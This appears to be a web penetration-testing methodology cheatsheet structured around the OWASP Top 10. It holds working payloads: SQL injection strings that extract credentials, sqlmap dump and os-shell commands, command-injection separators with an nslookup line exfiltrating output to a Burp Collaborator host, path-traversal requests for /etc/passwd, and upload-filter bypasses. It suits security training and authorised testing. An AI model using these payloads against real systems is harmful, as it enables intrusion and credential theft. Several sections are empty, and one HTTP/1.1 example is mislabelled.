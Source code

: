
# Methodology // Exploitation Cheatsheet

#

-----------------------------------------------------------------------------


<details>
  <summary>Methodology</summary>
  <br>
    
   # Enumeration
    
   ## Content discovery
  
   - What is the server running on/versions?
    - Wappalyzer
    - Response headers
    - Inspect source
    - Fingerprint server
    
          httprint -P0 -h <IP> -s /usr/share/httprint/<signature file>
          
   ## Scanning 
  
  - Have a BURP audit and crawler going against the site
 
  - Nikto scan 
  
        nikto -update 
  
        nikto -dbcheck
        
        nikto -h <url> 
        
          -p port          
          -ssl  force ssl on port
          -nossl disable use of ssl
          -id <username>:<password>
  
  - Have gobuster running
  
           
        gobuster dir -u <URL> -w <wordlist>

         -c <cookie> specify cookie

         -e <extensions>

         -P string
                 Password for Basic Auth (dir mode only)
         -U string
                 Username for Basic Auth (dir mode only)
  
  
  - [Header scanning](https://securityheaders.com/)

  - [Visual site mapper](http://www.visualsitemapper.com/)
  
  ## If the site requires OSINT
  
   ### Subdomain discovery
  
  - Sublist3r (scraping)
  - SubFinder-o
  - [assetfinder](https://github.com/tomnomnom/assetfinder)
   
        assetfinder <domain.TLD>
        
         By default will also find related assets that may not be in the searched domain.
        
          --subs-only   #will only find subdomains
   
  - AMass
  
  - [gowitness](https://github.com/sensepost/gowitness)
  
     Takes screenshots of websites
  
  - [httprobe](https://github.com/tomnomnom/httprobe)
  
      Will check if subdomains responds
 
  - [waybackurls](go get github.com/tomnomnom/waybackurls)
  
      Checks URLs against the wayback machine
  
  ## touching while scans run
  
  - Walk through the site manually and understand it's use
    
  - Note user input sections, URL parameters, etc. Anything interesting
 
  ## Testing
  
  [OWASP Top 10](https://www.owasp.org/images/7/72/OWASP_Top_10-2017_%28en%29.pdf.pdf)

  [OWASP checklist](https://github.com/tanprathan/OWASP-Testing-Checklist)

  - Follow along with [OWASP release 4.0](https://www.owasp.org/images/1/19/OTGv4.pdf) for each section
  
  
  
</details>

-----------------------------------------------------------------------------



<details>
  <summary>HTTP version syntax</summary>
  <br>
  
  **HTTP/1.0** 
   
      GET <resource> HTTP/1.0
      
  **HTTP/1.1** 
   
      GET <resource> HTTP/1.0
      Host: <domain>.<tld>
  
</details>


<details>
  <summary>Exploiting Misconfigured HTTP Verbs</summary>
  <br>
  
  **DELETE** 
   
        DELETE  <resource> HTTP/1.0
        
  **PUT**
  
        PUT /<filename for upload> HTTP/1.0 
        Content-type: text/html
        Content-length: <size of upload. Burp will auto count>
        
        
        <script>
  
</details>

-----------------------------------------------------------------------------

<details>
  <summary>Injection</summary>
  <br>
<details>
  
  <summary>SQLi</summary>
  <br>
  
  [SQL Syntax](https://www.w3schools.com/sql/sql_intro.asp) 
  
  [Injection](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A1-Injection)
  
  SQL statements begin with verbs.
 - Common SQL verbs:
        - SELECT
        - INSERT
        - DELETE
        - UPDATE
        - DROP
        - UNION
   
   - Terms:
        - WHERE - Filters records based on specific condition
        - AND/OR/NOT - Filter records based on multiple condtions
        - ORDER BY - Sorts records in ascending/descending order
        
   - Special characters:
        - ' and " - string delimeters
        - -- , /* and #  - Comment delimiters
        - * and %  - wildcards
        - ; - ends SQL statement
        - Others that follow programmatic logic - = , + , > , < , () , etc
        
   **Test vectors**
   
     - GET parameters
    
        Note on comments for GET requests: not just two dashes and a space, also add a third dash. Because most of the browsers automatically remove trailing spaces in the URL so, if you need to inject a comment via a GET request, you have to add a character after the trailing space of the comment i.e. -- -
     
     - POST parameters
     - HTTP Headers
       - UA
       - Cookies
       - Accept 
       - Etc
       
   **Test input**
   
     •String terminators: 'and "
     •SQL commands: SELECT, UNION, and others
     •SQLcomments:#or--
     • Closing off '))-- for URL parameters. Then try to move to a UNION SELECT
     
      **Exploit**
         
  **Boolean based SQLi**
  
   Trying blind SQL to figure out the contents of a field
  
       ' or substr(user(), 2, 1)= 'a
       
  **Union based**
  
   For if output is directly displayed on the output page. To exploit a SQL injection, you first need to know how many fields the vulnerable query selects. Which is done by trial and error. 
   
    ' UNION SELECT null; --
    ' UNION SELECT null,null; --
    
   Example: 
     
    ')) UNION SELECT 1,2,3,4,5,6,7,<payload> --
     

  Each null represents a field. Usually an SQL error page will represnt that we have the wrong number of fields. An SQL "false" (try to determine this once an SQLi has been discovered, i.e paramter image=<sql>, true=image loads, false=broken image) condition will represent that we have guessed the correct total of fields (do one extra just in case). 
  
  If you want to exploit this manually, the request needs to line up with the number of fields that are found to exist. 
  
  For example if I am injecting a URL parameter and found that there are 8 fields, the SQLi would look similar to this: 
    
         URL?query=')) UNION SELECT 1,2,3,4,5,6,7,8 --
         
   If I wanted to get the email and password field using this SQLi it would look like this:
   
         URL?query=')) UNION SELECT 1,2,3,4,5,6,email,password from Users--
         
   See how the email and password file replace 7 and 8 then asks from the Users table.

  
   Other payloads:
   
     ' UNION SELECT <SQL command>; --
     
     user() gets user running SQL
     
 **SQLMap**
 
   [Cheatsheet 1](https://gist.github.com/jkullick/03b98b1e44f03986c5d1fc69c092220d)
   
   Identifying SQL vulnerabilities 
   
    sqlmap -u "<url><resource>?id=1"
   
   
   sqlmap with GET request
   
     sqlmap -u "<url><resource>?id=1" -p id
     
      --cookie="<cookie>"
     
   sqlmap with POST request
   
     use Burp to save the injectable request to a text file
     
     sqlmap -r POSTrequest.txt -p <injectable parameter>
     
   Get tables
     
     sqlmap -u <url><resource>?id=1 -p id --tables
     
   Get contents
   
    sqlmap -u <url><resource>?id=1 -D awd -T accounts --dump
    
   Get OS shell
   
    --os-shell   
    
   this can sometimes be unstable and is a good idea to use this to initicate a reverse [shell](https://github.com/Kahvi-0/Cheat-Sheets/tree/master/Shell%20code)

   SQL query example:
   
        <verb> <* or column> FROM <Table name> WHERE <Term / Condition> 
</details>

<details>
  <summary>Command injection</summary>
  <br>

</details>

#

</details>

<details>
  <summary>Broken Authentication</summary>
  <br>
   
   [Broken Authentication](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A2-Broken_Authentication)

   Application functions related to authentication and session management are often implemented incorrectly, allowing attackers to compromise passwords, keys, or session tokens, or to exploit other implementation flaws to assume other users’ identities temporarily or permanently.
   
    - Testing login/password recovery error for username enumeration
    
    - Weak creds. Site allowing username as password.
    
    - Session fixation
        - How are session IDs handled? In URL or cookie? Are they encrypted/handled properly?
        - Does logging out revoke the cookie? Immediatly?
        - Is there a timeout on the session cookie?
        
        

</details>


<details>
  <summary>Sensitive Data Exposure</summary>
  <br>
   
 [Sensitive Data Exposure](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure)
 
 Many web applications and APIs do not properly protect sensitive data, such as financial, healthcare, and PII. Attackers may steal or modify such weakly protected data to conduct credit card fraud, identity theft, or other crimes. Sensitive data may be compromised without extra protection, such as encryption at rest or in transit, and requires special precautions when exchanged with the browser.
 
   - Stored credentials in site/site scripts
   
   - Backup directories
   
   - Dev directories
   
   - Internal data
   
   - Not in a dir accessable to anyone
   
   - Not Encrypted sensitive data if accessible
   
   - Are appropriate headers applie so attacks against a session cannot occur? Mitm/downgrade/etc
      - [Header scanning](https://securityheaders.com/)
      
   - Does it support new/degraded encryption. 
       
         nmap --script=ssl-enum-ciphers -p 443 <URL>
</details>


<details>
  <summary>XXE</summary>
  <br>
   
   [XML External Entities](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A4-XML_External_Entities_(XXE))
   
   Many older or poorly configured XML processors evaluate external entity references within XML documents. External entities can be used to disclose internal files using the file URI handler, internal file shares, internal port scanning, remote code execution, and denial of service attacks. An XML entity is like a variable that you can call into the page later. On the page you care only able to use alphanumeraic characters for strings, however you can call in an entity that contains special characters. You will notice the SYSTEM key word to let the parser know that the resource is external, i.e can pull data from the system. 
   
   [XXE Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)
   
  
</details>

<details>
  <summary>Broken Access Control</summary>
  <br>
  
  [Broken Access Controls](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A5-Broken_Access_Control)
  
  Restrictions on what authenticated users are allowed to do are often not properly enforced. Attackers can exploit these flaws to access unauthorized functionality and/or data, such as access other users’ accounts, view sensitive files, modify other users’ data, change access rights, etc


   - Look for client side code that handle data incorrectly
       - Hidden fields that have password/ UID data that can be minipulated
       - Cookies that improperly control access (i.e IsAdmin cookie)
       - 
   
   <details>
    <summary>403 restrictions bypass</summary>
     <br>
   
     Try other HTTP methods
   
       Try headers:
   
       X-Original-URL: <path>
     
       X-Rewrite-URL: <path>
   
   </details>
</details>


<details>
  <summary>Security Misconfiguration</summary>
  <br>

   [Security Misconfiguration](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A6-Security_Misconfiguration)
   
   Security misconfiguration is the most commonly seen issue. This is commonly a result of insecure default configurations, incomplete or ad hoc configurations, open cloud storage, misconfigured HTTP headers, and verbose error messages containing sensitive information. Not only must all operating systems, frameworks, libraries, and applications be securely configured, but they must be patched/upgraded in a timely fashion.
</details>


<details>
  <summary>XSS</summary>
  <br>
   [XSS](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A7-Cross-Site_Scripting_(XSS)) 
    
   [Portswigger Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
   
   XSS flaws occur whenever an application includes untrusted data in a new web page without proper validation or escaping, or updates an existing web page with user-supplied data using a browser API that can create HTML or JavaScript. XSS allows attackers to execute scripts in the victim’s browser which can hijack user sessions, deface web sites, or redirect the user to malicious sites. Note that reflected and DOM based XSS require social engineering. 
   
  [Payloads](https://github.com/pgaijin66/XSS-Payloads/blob/master/payload.txt)
   
   Blacklist bypassing:
    
     - Pay around with what is beng removed with input is entered. 
     
      + 
      
      <<  >> /
      
      Uppercase/lowercase
      
      encoding
   
</details>

<details>
  <summary>Insecure Deserialization</summary>
  <br>
   
   [Insecure Deserialization](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A8-Insecure_Deserialization)
   
   Taking data that is serialized (taking data, and converting it to a different format), and deserializing it. Insecure deserialization often leads to remote code execution. Even if deserialization flaws do not result in remote code execution, they can be used to perform attacks, including replay attacks, injection attacks, and privilege escalation attacks. 
   
   https://github.com/frohoff/ysoserial
   
</details>

<details>
  <summary>Using Components with Known Vulnerabilities</summary>
  <br>
   
   [Using Components with Known Vulnerabilities](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A9-Using_Components_with_Known_Vulnerabilities)
   
   Components, such as libraries, frameworks, and other software modules, run with the same privileges as the application. If a vulnerable component is exploited, such an attack can facilitate serious data loss or server takeover. Applications and APIs using components with known vulnerabilities may undermine application defenses and enable various attacks and impacts. Look for CVE or known vulnerabilities with software versions the target is running.
</details>

<details>
  <summary>Insufficient Logging&Monitoring</summary>
  <br>
   
   [Insufficient Logging&Monitoring](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A10-Insufficient_Logging%252526Monitoring)
   
 Insufficient logging and monitoring, coupled with missing or ineffective integration with incident response, allows attackers to further attack systems, maintain persistence, pivot to more systems, and tamper, extract, or destroy data. Most breach studies show time to detect a breach is over 200 days, typically detected by external parties rather than internal processes or monitoring.
</details>


<details>
  <summary>Parameters</summary>
  <br>
  
  Garbage info ( symbols, negative intigers)
  
  Other account tokens, token mixing
  
  HPP
  
</details>


<details>
  <summary>File Upload</summary>
  <br>
  
  Things to think about:
  
    - File size limit for DoS
  
    - Santized filenames ? buffer overflow
  
    - How are zip files handeled if accepted?
  
    - How are files renamed / accessed
  
    - Check Content-Type header
    
    - is it a blacklist or a whitelist
    
    - How are the files being varified? Name, POST form or file content?
  
  Payloads: 
  
   ## manual testing bypass
    
    .PhP .php3 .php5
    
    .php00.png
    
    .php (1).png
  
  ## Use Burp intruder against the wordlist inder /usr/share/wordlists/dirb/
    
    
   ## Editing upload request 
</details>


<details>
  <summary>Open redirects</summary>
  <br>
 
  If the site redirects.
  
  Server side: 
   
    - Referer in Http request
    - Checking if only relative / are allowed. // is a protocol agnostic, absolute URL. Try that.
  
  Client side:
  
    - window.location how is it checked? 
</details>

<details>
  <summary>Privilege Escalation</summary>
  <br>
  
  Cookies:
     How are sessions being held in cookies. Vuln to tampering (no digital sig)?
     What other info is in the cookies? 
     Try to see if the server will take untrusted data from your requests.
     Encrypted?
      
  <details>
  <summary>Try Horizontal escalation:</summary>
  <br>
  Horizontal privilege escalation occurs when an application allows the attacker to gain access to resources which normally would have been protected from an application or user. The result is that the application performs actions with the same but different security context than intended by the application developer or system administrator; this is effectively a limited form of privilege escalation (specifically, the unauthorized assumption of the capability of impersonating other users). 
  </details>   

  Finding a way tio make requests as an admin 
   
  <details>
  <summary>Vertical Escalation</summary>
  <br>
  This type of privilege escalation occurs when the user or process is able to obtain a higher level of access than an administrator or system developer intended, possibly by performing kernel-level operations. 
  </details>
</details>

<details>
  <summary>Session Fixation</summary>
  <br>
  
  Can you take control of an authenticated users session using the sessionID.
  
  - Use the sessionID that has already been established
  
  - Craft a sessionID and see if that sticks. i.e www.site.com/login?jsessionID=CraftedID 
    Login and see if the sessionID stays the same.
  
</details>


<details>
  <summary>Command Injection</summary>
  <br>

 Areas with user input that could have its handleing manipulated to run an OS command.

   Parrameters sent such as those in URLs i.e ?filename=  or user input.
  
  Command seperators which allow for commands to be chained together. 
   nix/Windows
   
    & 
    && (extra & separates the injected command from whatever follows the injection point.)
    |
    ||
    
   Unix
    
    ;
    0x0a or /n (newline)
    
   Unix. Back ticks or dollar character can be used to perform inline execution of an injected command within the original command. 
     
    ' Command ' 
    $(Command)
    
  Note that the different shell metacharacters have subtly different behaviors that might affect whether they work in certain situations, and whether they allow in-band retrieval of command output or are useful only for blind exploitation.

 Sometimes, the input that you control appears within quotation marks in the original command. In this situation, you need to  terminate the quoted context (using " or ') before using suitable shell metacharacters to inject a new command. 


  Useful commands 

    Purpose of command 	Linux 	Windows
    Name of current user 	whoami 	whoami
    Operating system 	uname -a 	ver
    Network configuration 	ifconfig 	ipconfig /all
    Network connections 	netstat -an 	netstat -an
    Running processes 	ps -ef 	tasklist 
    
   Blind:
    
   wait X seconds to test
   
     ping -c X 127.0.0.1 
     
   Rediecting blind output
   
    whoami > /<writable folder>
    
    Then naviage to that file  www.example.ca/<writeable file>
     
     
   Note that the file may only be accessable how the server allows it to be accessed. 
   Example: you write to an image directory but the server only allows the files to be accessed via 
      
       /image?filename=myfile.txt 
       so /image/myfile.txt may not work.
   
   Out-of-band
   
   Having the server interact with another system you control 
   
    ping BurpCollab
    
   Exfultrate data using out-of-band
   
    $(nslookup `whoami`.c2f2evzg76x5nz0z7m8uwsvvrmxdl2.burpcollaborator.net)
     
   Which will result in this request to my DNS server
    
   [![DNS-request.png](https://i.postimg.cc/L41gCYwc/DNS-request.png)](https://postimg.cc/23C536zG)

</details>

<details>
  <summary>Directory Traversal</summary>
  <br>
  Allows the reading of files on the server that is running the vulnerable application by manipulating a parameter. 
 
     /image?filename=../../../etc/passwd
 
 Attempt with abosule and relative paths as one or the other may be blocked/not blocked.
 
 Bypassing stripped traversal
 
  ....// and ...\/ will strip the detected ../ and ..\ from the centre and the outsides will come together to make ../.
  If what gets parsed / removed is responded use that to try to find a way to bypass. 
  
  encoding:
  
    ..%252f (takes away the 25 and you are left with the / encodded)
    ..%c0%af
  
  Some applications transmit the full path via the request, you may need to append your traversal to that.
 
    /image?filename=/var/www/images/../../../../etc.passwd
    
  Bypass required endings to a file
  
   %00 (null byte)
   
    passwd%00.png
    
  Note that depending on how the server sends thse back you may have to curl the request.
  
    curl https://ac8d1f3e1f7f4d4080c322dc0035009c.web-security-academy.net/image?filename=../../../../etc/passwd%00.jpg

 
</details>

<details>
  <summary>Sub Domain Takeover</summary>
  <br>
  
  If a sub domain that is found belonging to a target that is unused may be vulnerable to sub domain takeover. 
  
  Signs: 
  
  Exploit:
</details>


<details>
  <summary>SSRF</summary>
  <br>
  
  - Bypass SSRF fix. Change HTTP version from 1.1 to 0.9 and remove the host header completely. On HTTP/0.9 there is no need for a host header.
</details>



<details>
  <summary></summary>
  <br>
</details>
